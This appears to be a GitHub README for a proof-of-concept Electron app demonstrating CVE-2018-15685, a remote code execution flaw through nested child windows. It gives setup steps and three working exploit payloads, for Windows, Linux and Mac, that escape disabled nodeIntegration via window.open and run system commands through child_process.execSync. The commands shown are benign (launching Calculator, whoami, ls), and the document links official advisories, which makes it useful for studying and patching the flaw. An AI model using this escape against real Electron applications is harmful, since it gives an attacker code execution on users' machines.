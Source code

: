 # CVE-2018-15685 - Electron WebPreferences Remote Code Execution

![enter image description here](https://cdn-images-1.medium.com/max/2000/1*aBsgPiEeOE5lLoippRm7BA.png)
This is a minimal Electron application with a POC for [CVE-2018-15685](https://nvd.nist.gov/vuln/detail/CVE-2018-15685).

> A remote code execution vulnerability has been discovered affecting apps with the ability to open nested child windows on Electron versions (3.0.0-beta.6, 2.0.7, 1.8.7, and 1.7.15). This vulnerability has been assigned the CVE identifier CVE-2018-15685.


The project contains the fillowing files:

- `main.js` - This is the app's **main process**. Note this has `nodeIntegration` disabled so it should not be possibe use "process"
- `index.html` - This is an example rendered page. This could be remotely controlled URL, or a page from an application with an XSS. In this example even though it is a local file but should not have access to node bindings.

## To Use

To clone and run this repository you'll need [Git](https://git-scm.com) and [Node.js](https://nodejs.org/en/download/) (which comes with [npm](http://npmjs.com)) installed on your computer. From your command line:

```bash
# Clone this repository
git clone https://github.com/rahulr311295/Electron_RCE.git
# Go into the repository
cd Electron_RCE
# Start a PHP Server
sudo php -S localhost:80
# Install dependencies
npm install
# Run the app
npm start
```
## To Run

### Windows
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("calc.exe"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and shows which user is currently logged in
```
![Windows](https://media.giphy.com/media/7OWdOErn5tFn2F1LKW/giphy.gif)
    
### Linux
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which lists files and shows which user is currently logged in
```
![Linux](https://media.giphy.com/media/4ZcOpedgQBPMMWdHsN/giphy.gif)

### Mac
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("open /Applications/Calculator.app"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and lists files in the directory
```
![Linux](https://media.giphy.com/media/XIhhk0xiXlkK1Roqux/giphy.gif)

**For More Information about this Vulnerability **

Full write up on the [Contrast Security blog](https://www.contrastsecurity.com/security-influencers/cve-2018-15685) or the write up on the offical blog from [Electron](https://electronjs.org/blog/web-preferences-fix)

**Credits to**
#### [Matt Austin](https://github.com/matt-) for the original POC